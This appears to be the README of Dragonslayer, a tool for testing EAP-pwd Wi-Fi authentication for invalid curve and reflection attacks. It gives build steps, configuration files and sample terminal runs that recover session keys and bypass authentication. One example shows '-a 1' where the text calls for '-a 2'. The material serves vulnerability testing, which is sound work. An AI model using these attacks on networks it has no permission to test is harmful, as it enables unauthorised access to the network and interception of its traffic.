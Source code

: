 This is an experimental tool to test EAP-pwd implementations for vulnerabilities. We also strongly recommend to perform code inspections to assure all vulnerabilities have been properly addressed.

# Prerequisites

Our scripts were tested on Kali Linux. To install the required dependencies on Kali, execute:

	apt-get update
	apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git libdbus-1-dev

After this, inside the repository directory compile our modified hostapd and wpa_supplicant tools:

      cd dragonslayer
      ./build.sh

Remember to disable Wi-Fi in your network manager before using our scripts. After disabling Wi-Fi, execute `sudo rfkill unblock wifi` so our scripts can still use Wi-Fi.


# Summary

The attack parameters of our tool are:

- `-a 0`: perform reflection attack.
- `-a 1`: perform invalid curve attack.
- `-a 2`: perform second variant of the invalid curve attack

See the examples below for more information.
The wrapper scripts `dragonslayer-client.sh` and `dragonslayer-server.sh` are contained in the directory `dragonslayer`.

# Testing attacks against the server

## Preperation

Edit the file `dragonslayer/client.conf` and specify:

1. The SSID of the network name using the `ssid` parameter.
2. A valid EAP-pwd username using the `identity` parameter. The attacks don't work with an invalid username.
3. Leave the other parameters untouched.

An example of `dragonslayer/client.conf` is the following:

	network={
		ssid="dragonblood"
		key_mgmt=WPA-EAP
		eap=PWD
		identity="bob"
		password="unknown password"
	}

## Invalid curve attack

To test whether an EAP-pwd server is vulnerable to invalid curve attacks, start `dragonslayer-client.sh` using the `-a 1` parameter. You must also specify the wireless interface being used with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	[sudo] password for mathy: 
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:21:18] 38:2c:4a:c1:69:c0: sending a scalar equal to zero
	[03:21:18] 38:2c:4a:c1:69:c0: sending generator of small subgroup as the element
	[03:21:18] 38:2c:4a:c1:69:c0: trying to recover session key..
	[03:21:18] 38:2c:4a:c1:69:c0: successfully recovered the session key. Server is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	wlp2s0: WPA: Key negotiation completed with 38:2c:4a:c1:69:c0 [PTK=CCMP GTK=CCMP]
	wlp2s0: CTRL-EVENT-CONNECTED - Connection to 38:2c:4a:c1:69:c0 completed [id=0 id_str=]

Notice that the tool will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not vulnerable, try performing the attack a few times again. If none of the attack attempts succeed, the EAP-pwd server is not vulnerable to this specific attack. In this case, also try attacking the EAP-pwd server using a small variant of the invalid curve attack using the `-a 2` parameter:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	...

Similar to the case above, it will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not displayed after several attempts, the EAP-pwd server is not vulnerable to this specific attack.

We also recommend that you audit the server code itself. It can be that these specific attacks don't work, but that more specialized attacks would still work.


## Reflection attack

To test whether an EAP-pwd server is vulnerable to a reflection attack, start `dragonslayer-client.sh` using the `-a 0` parameter. You must also specify the wireless interface being used with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected server scalar and element in commit frame
	[03:22:11] 38:2c:4a:c1:69:c0: Skipping verification of recieved confirm value
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected confirm value in confirm frame
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	[03:22:11] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	[03:22:12] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:13] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:14] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!

The tool will display **server is vulnerable to reflection attack!** if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.

# Testing attacks against the client

## Preperation

First modify `dragonslayer/hostapd.conf` and **edit the line `interface=` to specify the Wi-Fi interface** that will be used to execute the tests. Note that for all tests, once the script is running, you must let the device being tested connect to the **SSID dragonslayer with as username bob** and the password can be anything. You can change settings of the AP by modifying `dragonslayer/hostapd.conf`.

## Invalid curve attack

To test whether an EAP-pwd client is vulnerable to invalid curve attacks, start `dragonslayer-server.sh` using the `-a 1` parameter. Using the server is running, connect to it with the client you want to test. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-server.sh -a 1
	Configuration file: hostapd.conf
	Using interface wlp2s0 with hwaddr 8a:f5:40:f9:5d:c0 and ssid "dragonblood"
	wlp2s0: interface state UNINITIALIZED->ENABLED
	wlp2s0: AP-ENABLED 
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: authenticated
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: associated (aid 1)
	wlp2s0: CTRL-EVENT-EAP-STARTED c4:e9:84:db:fb:7b
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	EAP-pwd: provisioned group 19
	[03:48:15] c4:e9:84:db:fb:7b: sending a scalar equal to zero
	[03:48:15] c4:e9:84:db:fb:7b: sending generator of small subgroup as the element
	[03:48:15] c4:e9:84:db:fb:7b: configured X-coordinate of subgroup generator as session key
	[03:48:15] c4:e9:84:db:fb:7b: Successfully recovered the session key. Client is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b WPA: pairwise key handshake completed (RSN)
	wlp2s0: AP-STA-CONNECTED c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b RADIUS: starting accounting session 35BB5B4BB3793544
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.1X: authenticated - EAP type: 0 (unknown)

The tool will display **Client is vulnerable to invalid curve attack!** if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.

